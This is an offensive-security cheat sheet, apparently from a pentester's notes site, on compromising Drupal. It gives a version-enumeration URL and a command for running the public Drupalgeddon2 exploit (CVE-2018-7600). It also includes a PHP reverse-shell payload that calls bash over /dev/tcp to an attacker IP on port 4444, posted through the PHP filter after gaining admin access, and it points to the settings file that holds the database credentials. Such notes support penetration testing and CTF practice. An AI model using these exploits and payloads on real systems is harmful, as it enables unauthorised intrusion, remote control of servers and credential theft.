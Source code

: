 ```yaml
---
title: Drupal
category: Software
order: 2
---
```


# Enumeration

We can obtain the server version on the next resource:

```
https://target.com/core/install.php
```

# Drupalgeddon (<7.58, <8.5.1, <8.46, <8.3.9) - CVE-2018-7600

All version of drupal lower than 7.58 are vulnerable to RCE.

```
ruby drupalgeddon2.rb http://<ip>/
```
* [https://github.com/dreadlocked/Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)

# From Admin to Reverse Shell

Firstly we need to enable `PHP filter` on Modules tab.

![](/hackingnotes/images/durpal_rce_1.png)

And go to Content -> +Add Content -> Article, select **PHP code** as Text Format and finally introduce the reverse shell on the body.

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.20/4444>&1'"); ?>
```

![](/hackingnotes/images/durpal_rce_2.png)

Finally clicking Preview button a reverse shell is spawned to our listener.

![](/hackingnotes/images/durpal_rce_3.png)

# Config files

## Database Connection

```
$DRUPAL/sites/default/settings.php
```
